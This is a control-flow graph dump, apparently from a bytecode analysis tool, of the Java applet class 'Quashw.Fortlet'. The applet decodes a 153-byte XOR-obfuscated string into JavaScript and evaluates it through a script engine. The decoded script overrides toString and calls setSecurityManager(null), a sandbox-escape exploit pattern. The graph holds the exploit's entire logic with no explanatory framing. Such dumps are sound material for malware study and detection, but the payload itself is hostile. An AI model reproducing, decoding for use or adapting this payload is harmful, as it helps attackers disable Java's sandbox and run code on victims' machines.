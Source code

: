 digraph "" {
    "r0 := @this: Quashw.Fortlet"
    "new javax.script.ScriptEngineManager"
    "r0 := @this: Quashw.Fortlet"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "store.r r14"
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"store.r r14";
    "load.r r14"
    "store.r r14"->"load.r r14";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "load.r r14"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r1"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"applet\""
    "load.r r1"->"push \"applet\"";
    "load.r r0"
    "push \"applet\""->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "push 153"
    "pop"->"push 153";
    "newarray"
    "push 153"->"newarray";
    "store.r $r8"
    "newarray"->"store.r $r8";
    "load.r $r8"
    "store.r $r8"->"load.r $r8";
    "push 0"
    "load.r $r8"->"push 0";
    "push 65"
    "push 0"->"push 65";
    "arraywrite.b"
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 1"
    "load.r $r8"->"push 1";
    "push 1"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 2"
    "load.r $r8"->"push 2";
    "push 21"
    "push 2"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 3"
    "load.r $r8"->"push 3";
    "push 9"
    "push 3"->"push 9";
    "push 9"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 4"
    "load.r $r8"->"push 4";
    "push 8"
    "push 4"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 5"
    "load.r $r8"->"push 5";
    "push 18"
    "push 5"->"push 18";
    "push 18"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 6"
    "load.r $r8"->"push 6";
    "push 79"
    "push 6"->"push 79";
    "push 79"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 7"
    "load.r $r8"->"push 7";
    "push 7"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 8";
    "push 14"
    "push 8"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 9";
    "push 50"
    "push 9"->"push 50";
    "push 50"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 10"
    "load.r $r8"->"push 10";
    "push 10"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 11"
    "load.r $r8"->"push 11";
    "push 19"
    "push 11"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 12"
    "load.r $r8"->"push 12";
    "push 12"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 13"
    "load.r $r8"->"push 13";
    "push 15"
    "push 13"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 14";
    "push 14"->"push 6";
    "push 6"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 15";
    "push 15"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 16"
    "load.r $r8"->"push 16";
    "push 92"
    "push 16"->"push 92";
    "push 92"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 17"
    "load.r $r8"->"push 17";
    "push 17"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 18";
    "push 18"->"push 7";
    "push 7"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 19";
    "push 20"
    "push 19"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 20";
    "push 20"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 21";
    "push 21"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 22"
    "load.r $r8"->"push 22";
    "push 22"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 23"
    "load.r $r8"->"push 23";
    "push 23"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 24"
    "load.r $r8"->"push 24";
    "push 24"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 25"
    "load.r $r8"->"push 25";
    "push 25"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 26"
    "load.r $r8"->"push 26";
    "push 73"
    "push 26"->"push 73";
    "push 73"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 27"
    "load.r $r8"->"push 27";
    "push 72"
    "push 27"->"push 72";
    "push 72"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 28"
    "load.r $r8"->"push 28";
    "push 28"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 29"
    "load.r $r8"->"push 29";
    "push 29"->"push 26";
    "push 26"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 30"
    "load.r $r8"->"push 30";
    "push 30"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 31"
    "load.r $r8"->"push 31";
    "push 31"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 32"
    "load.r $r8"->"push 32";
    "push 32"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 33"
    "load.r $r8"->"push 33";
    "push 33"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 34"
    "load.r $r8"->"push 34";
    "push 34"->"push 11";
    "push 11"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 35"
    "load.r $r8"->"push 35";
    "push 35"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 36"
    "load.r $r8"->"push 36";
    "push 36"->"push 23";
    "push 23"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 37"
    "load.r $r8"->"push 37";
    "push 37"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 38"
    "load.r $r8"->"push 38";
    "push 38"->"push 79";
    "push 79"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 39"
    "load.r $r8"->"push 39";
    "push 39"->"push 13";
    "push 13"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 40"
    "load.r $r8"->"push 40";
    "push 40"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 41"
    "load.r $r8"->"push 41";
    "push 41"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 42"
    "load.r $r8"->"push 42";
    "push 42"->"push 6";
    "push 6"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 43"
    "load.r $r8"->"push 43";
    "push 43"->"push 79";
    "push 79"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 44"
    "load.r $r8"->"push 44";
    "push 44"->"push 50";
    "push 50"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 45"
    "load.r $r8"->"push 45";
    "push 45"->"push 24";
    "push 24"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 46"
    "load.r $r8"->"push 46";
    "push 46"->"push 18";
    "push 18"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 47"
    "load.r $r8"->"push 47";
    "push 47"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 48"
    "load.r $r8"->"push 48";
    "push 48"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 49"
    "load.r $r8"->"push 49";
    "push 49"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 50";
    "push 50"->"push 79";
    "push 79"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 51"
    "load.r $r8"->"push 51";
    "push 51"->"push 18";
    "push 18"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 52"
    "load.r $r8"->"push 52";
    "push 52"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 53"
    "load.r $r8"->"push 53";
    "push 53"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 54"
    "load.r $r8"->"push 54";
    "push 54"->"push 50";
    "push 50"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 55"
    "load.r $r8"->"push 55";
    "push 55"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 56"
    "load.r $r8"->"push 56";
    "push 56"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 57"
    "load.r $r8"->"push 57";
    "push 57"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 58"
    "load.r $r8"->"push 58";
    "push 58"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 59"
    "load.r $r8"->"push 59";
    "push 59"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 60"
    "load.r $r8"->"push 60";
    "push 60"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 61"
    "load.r $r8"->"push 61";
    "push 61"->"push 24";
    "push 24"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 62"
    "load.r $r8"->"push 62";
    "push 62"->"push 44";
    "push 44"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 63"
    "load.r $r8"->"push 63";
    "push 63"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 64"
    "load.r $r8"->"push 64";
    "push 64"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 65";
    "push 65"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 66"
    "load.r $r8"->"push 66";
    "push 66"->"push 6";
    "push 6"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 67"
    "load.r $r8"->"push 67";
    "push 67"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 68"
    "load.r $r8"->"push 68";
    "push 68"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 69"
    "load.r $r8"->"push 69";
    "push 69"->"push 73";
    "push 73"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 70"
    "load.r $r8"->"push 70";
    "push 70"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 71"
    "load.r $r8"->"push 71";
    "push 71"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 72";
    "push 72"->"push 13";
    "push 13"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 73";
    "push 73"->"push 13";
    "push 13"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 74"
    "load.r $r8"->"push 74";
    "push 74"->"push 72";
    "push 72"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 75"
    "load.r $r8"->"push 75";
    "push 90"
    "push 75"->"push 90";
    "push 90"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 76"
    "load.r $r8"->"push 76";
    "push 76"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 77"
    "load.r $r8"->"push 77";
    "push 77"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 78"
    "load.r $r8"->"push 78";
    "push 78"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 79";
    "push 79"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 80"
    "load.r $r8"->"push 80";
    "push 80"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 81"
    "load.r $r8"->"push 81";
    "push 81"->"push 17";
    "push 17"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 82"
    "load.r $r8"->"push 82";
    "push 82"->"push 17";
    "push 17"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 83"
    "load.r $r8"->"push 83";
    "push 83"->"push 13";
    "push 13"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 84"
    "load.r $r8"->"push 84";
    "push 84"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 85"
    "load.r $r8"->"push 85";
    "push 85"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 86"
    "load.r $r8"->"push 86";
    "push 86"->"push 79";
    "push 79"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 87"
    "load.r $r8"->"push 87";
    "push 87"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 88"
    "load.r $r8"->"push 88";
    "push 88"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 89"
    "load.r $r8"->"push 89";
    "push 89"->"push 13";
    "push 13"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 90";
    "push 90"->"push 13";
    "push 13"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 91"
    "load.r $r8"->"push 91";
    "push 91"->"push 35";
    "push 35"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "load.r $r8"->"push 92";
    "push 92"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 93"
    "load.r $r8"->"push 93";
    "push 93"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 94"
    "load.r $r8"->"push 94";
    "push 94"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 95"
    "load.r $r8"->"push 95";
    "push 95"->"push 73";
    "push 73"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 96"
    "load.r $r8"->"push 96";
    "push 96"->"push 72";
    "push 72"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 97"
    "load.r $r8"->"push 97";
    "push 97"->"push 90";
    "push 90"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 98"
    "load.r $r8"->"push 98";
    "push 98"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 99"
    "load.r $r8"->"push 99";
    "push 99"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 100"
    "load.r $r8"->"push 100";
    "push 100"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 101"
    "load.r $r8"->"push 101";
    "push 101"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 102"
    "load.r $r8"->"push 102";
    "push 102"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 103"
    "load.r $r8"->"push 103";
    "push 103"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 104"
    "load.r $r8"->"push 104";
    "push 104"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 105"
    "load.r $r8"->"push 105";
    "push 105"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 106"
    "load.r $r8"->"push 106";
    "push 106"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 107"
    "load.r $r8"->"push 107";
    "push 107"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 108"
    "load.r $r8"->"push 108";
    "push 108"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 109"
    "load.r $r8"->"push 109";
    "push 109"->"push 70";
    "push 70"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 110"
    "load.r $r8"->"push 110";
    "push 110"->"push 7";
    "push 7"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 111"
    "load.r $r8"->"push 111";
    "push 111"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 112"
    "load.r $r8"->"push 112";
    "push 112"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 113"
    "load.r $r8"->"push 113";
    "push 113"->"push 70";
    "push 70"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 114"
    "load.r $r8"->"push 114";
    "push 114"->"push 90";
    "push 90"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 115"
    "load.r $r8"->"push 115";
    "push 115"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 116"
    "load.r $r8"->"push 116";
    "push 116"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 117"
    "load.r $r8"->"push 117";
    "push 117"->"push 28";
    "push 28"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 118"
    "load.r $r8"->"push 118";
    "push 118"->"push 90";
    "push 90"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 119"
    "load.r $r8"->"push 119";
    "push 119"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 120"
    "load.r $r8"->"push 120";
    "push 120"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 121"
    "load.r $r8"->"push 121";
    "push 121"->"push 92";
    "push 92"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 122"
    "load.r $r8"->"push 122";
    "push 122"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 123"
    "load.r $r8"->"push 123";
    "push 123"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 124"
    "load.r $r8"->"push 124";
    "push 124"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 125"
    "load.r $r8"->"push 125";
    "push 125"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 126"
    "load.r $r8"->"push 126";
    "push 126"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 127"
    "load.r $r8"->"push 127";
    "push 127"->"push 36";
    "push 36"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 128"
    "load.r $r8"->"push 128";
    "push 128"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 129"
    "load.r $r8"->"push 129";
    "push 129"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 130"
    "load.r $r8"->"push 130";
    "push 130"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 131"
    "load.r $r8"->"push 131";
    "push 131"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 132"
    "load.r $r8"->"push 132";
    "push 132"->"push 73";
    "push 73"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 133"
    "load.r $r8"->"push 133";
    "push 133"->"push 72";
    "push 72"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 134"
    "load.r $r8"->"push 134";
    "push 134"->"push 90";
    "push 90"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 135"
    "load.r $r8"->"push 135";
    "push 135"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 136"
    "load.r $r8"->"push 136";
    "push 136"->"push 79";
    "push 79"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 137"
    "load.r $r8"->"push 137";
    "push 137"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 138"
    "load.r $r8"->"push 138";
    "push 138"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 139"
    "load.r $r8"->"push 139";
    "push 139"->"push 18";
    "push 18"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 140"
    "load.r $r8"->"push 140";
    "push 140"->"push 18";
    "push 18"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 141"
    "load.r $r8"->"push 141";
    "push 141"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 142"
    "load.r $r8"->"push 142";
    "push 142"->"push 6";
    "push 6"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 143"
    "load.r $r8"->"push 143";
    "push 143"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 144"
    "load.r $r8"->"push 144";
    "push 144"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 145"
    "load.r $r8"->"push 145";
    "push 145"->"push 92";
    "push 92"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 146"
    "load.r $r8"->"push 146";
    "push 146"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 147"
    "load.r $r8"->"push 147";
    "push 147"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 148"
    "load.r $r8"->"push 148";
    "push 148"->"push 9";
    "push 9"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 149"
    "load.r $r8"->"push 149";
    "push 149"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 150"
    "load.r $r8"->"push 150";
    "push 150"->"push 18";
    "push 18"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 151"
    "load.r $r8"->"push 151";
    "push 151"->"push 90";
    "push 90"->"arraywrite.b";
    "arraywrite.b"->"load.r $r8";
    "push 152"
    "load.r $r8"->"push 152";
    "push 152"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"push 0";
    "store.i i6"
    "push 0"->"store.i i6";
    "load.i i6"
    "store.i i6"->"load.i i6";
    "load.i i6"->"load.r $r8";
    "arraylength"
    "load.r $r8"->"arraylength";
    "ifcmpge.i load.r r0"
    "arraylength"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"load.r $r8";
    "load.r $r8"->"load.i i6";
    "load.i i6"->"load.r $r8";
    "load.r $r8"->"load.i i6";
    "arrayread.b"
    "load.i i6"->"arrayread.b";
    "arrayread.b"->"push 97";
    "xor.b"
    "push 97"->"xor.b";
    "push 255"
    "xor.b"->"push 255";
    "and.b"
    "push 255"->"and.b";
    "i2b"
    "and.b"->"i2b";
    "i2b"->"arraywrite.b";
    "inc.i i6 1"
    "arraywrite.b"->"inc.i i6 1";
    "goto load.i i6"
    "inc.i i6 1"->"goto load.i i6";
    "ifcmpge.i load.r r0"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r14";
    "new java.lang.String"
    "load.r r14"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r $r8";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "load.r $r8"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"load.r r1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r1"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <Quashw.Fortlet: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <Quashw.Fortlet: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Quashw.Fortlet: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <Quashw.Fortlet: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
